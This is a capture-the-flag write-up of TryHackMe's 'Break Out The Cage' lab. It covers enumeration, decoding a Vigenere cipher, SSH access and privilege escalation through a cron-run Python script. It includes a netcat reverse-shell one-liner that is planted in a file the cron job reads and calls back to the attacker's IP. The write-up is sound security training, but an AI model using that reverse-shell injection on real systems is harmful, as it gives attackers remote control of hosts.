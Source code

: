 ```yaml
---
layout: post
title: "Break Out The Cage"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [ftp, base64, Vigenere-cipher, ffuf, pspy64, python, email]
image: ../../assets/img/posts/breakoutthecage.png 

---
```


## Description

Help Cage bring back his acting career and investigate the nefarious goings on of his agent!

|**Room**|[Break Out The Cage](https://tryhackme.com/room/breakoutthecage1)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Magna](https://tryhackme.com/p/Magna)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.215.181 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/187351008-5f1f1750-ca50-40d1-9e36-e68b72569c6a.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sV -sC -p21,22,80 10.10.215.181 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/187351043-777108cc-c11b-4d30-a97b-fe2ea29d706a.png)

Result scan shows that port 21 is running ftp service, port 22 is running ssh service, port 80 is running apache webserver. Let's enumerate ftp service.

Using ftp client tool, we can access ftp service running on the machine,

```bash
ftp 10.10.215.181
```

![image](https://user-images.githubusercontent.com/67465230/187351076-5c62fd73-0fcb-4eec-953f-2fe621ba804b.png)

Enumerate directory and there is a file lying around,

![image](https://user-images.githubusercontent.com/67465230/187351106-255caea8-6af8-4324-b4cd-7c6e9de18ea0.png)

We can download this file on our system,

```bash
get dad_tasks
```

Reading the file and I got the idea that this string is encoded with base64,

![image](https://user-images.githubusercontent.com/67465230/187351131-65431734-b6b6-451b-a3a6-38e89b45bff0.png)

So we can try to decode this string,

```bash
echo <base64-here> | base64 -d
```

![image](https://user-images.githubusercontent.com/67465230/187351163-6f1b9a6a-e635-476a-a5c6-e8122af61470.png)

Looks like this is another encoded string we got.

Visit [Cipher Identifier](https://www.boxentriq.com/code-breaking/cipher-identifier) and pasting the encoded string here and after analysis, we now know that this is a Vigenere Cipher,

![image](https://user-images.githubusercontent.com/67465230/187351202-49e1a7a8-4b9c-4938-bde0-3087abb605b7.png)

Let's visit http://10.10.215.181 and we landed on a page which has cage pictures,

![image](https://user-images.githubusercontent.com/67465230/187351254-13ecfe37-6a70-4b0b-9cb3-b7f74ef9cf10.png)

Now, we can try to fuzz directories using `ffuf` tool,

```bash
ffuf -u http://10.10.215.181/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187351314-c7fda3a7-fadc-4a90-938c-813aa29e21a2.png)

we got some directories but there is a unique directory named auditions.

Navigating to http://10.10.215.181/auditions,

![image](https://user-images.githubusercontent.com/67465230/187351337-fa6a0955-89cd-4f77-82ac-13f50bce2241.png)

there is a audio file. 

So let's download it using `wget` command,

```bash
wget http://10.10.215.181/auditions/must_practice_corrupt_file.mp3
```

Now, we can use `sonic-visualizer` tool to get the text  from audio file,

![image](https://user-images.githubusercontent.com/67465230/187351381-40bb4014-6911-442e-b568-658993cfa7c9.png)

Now that we got the key, *namelesstwo*, we can paste this key and get the result,

![image](https://user-images.githubusercontent.com/67465230/187351483-cd80ebdb-aec3-4b86-ab1c-14032c92357e.png)

we got the weston user password.

We can try to login using weston user and password,

```bash
ssh weston@10.10.215.181
```

![image](https://user-images.githubusercontent.com/67465230/187351520-c5fb760e-a941-4fa7-bdfe-58cedfef5ccd.png)

and we get in!!

After some enumeration, there is nothing I found unusual on the system so I decided to run [pspy64](https://github.com/DominicBreuker/pspy) on this system,

```bash
./pspy64 -pf -i 1000
```

![image](https://user-images.githubusercontent.com/67465230/187351592-0d6e090a-7b62-4831-8062-70f7ad5ab36a.png)

and we will see that cronjob is running silently but it's not showing on the surface and the file which is running has the path */opt/.dads_scripts/spread_the_quotes.py*.

First checking the owner of this python file, which is cage,

![image](https://user-images.githubusercontent.com/67465230/187351637-903b80d3-3e8c-4f64-b741-721fb32d0fcc.png)

so we can elevate our privileges to cage user.

Reading the content of the file,

![image](https://user-images.githubusercontent.com/67465230/187351713-8dec88da-e350-44d7-8205-5e1a107429d2.png)

We can see that it reads the`.quotes`file and selects a random line from it. Which is then displayed to all the users via the system command `wall`.

We can use one-liner netcat listener to catch a reverse shell,

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.131 4444 >/tmp/f" > .quotes
```

after waiting for a moment, we will become cage user. We will get a shell but it will be a under-privilege one so we will need to improve it using sequence of these commands,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
stty rows 38 columns 116
```

Enumerating directory and there we find a file named Super_Duper_Checklist,

![image](https://user-images.githubusercontent.com/67465230/187351754-6f90c2e5-7772-4702-bc40-8c57d5c4d036.png)

Reading the Super_Duper_Checklist file, 

![image](https://user-images.githubusercontent.com/67465230/187351787-3c590e60-eafe-4fae-abf5-34ce6115b649.png)

we got the flag. 

Now, after enumerating directory, I found that there is a directory named email_backup and there are 3 files which lie around there,

![image](https://user-images.githubusercontent.com/67465230/187351837-108f1634-991c-4bd0-bdd7-65f17638c096.png)

After reading the 3rd email file, we got a strings which is encoded and the user cage is emphasizing on the word FACE.

![image](https://user-images.githubusercontent.com/67465230/197141311-43106367-dcb1-4134-a7a9-762ed9e7feff.png)

So let's use this keyword to decode the string we got,

![image](https://user-images.githubusercontent.com/67465230/197141426-a5a4b309-fbf4-4f6d-9ea0-160b577befdc.png)

We got the password.

Now, we can try to switch user to root user, but it didn't work. The password seems correct but it didn't work.

![image](https://user-images.githubusercontent.com/67465230/197141520-c5a3a6c5-cacc-4a78-ac9d-931286b18414.png)

So I try to switch user from weston user shell,

```bash
su root
```

![image](https://user-images.githubusercontent.com/67465230/187352080-85ce280d-fcb4-4069-9829-9f52f7a5e431.png)

and we become root.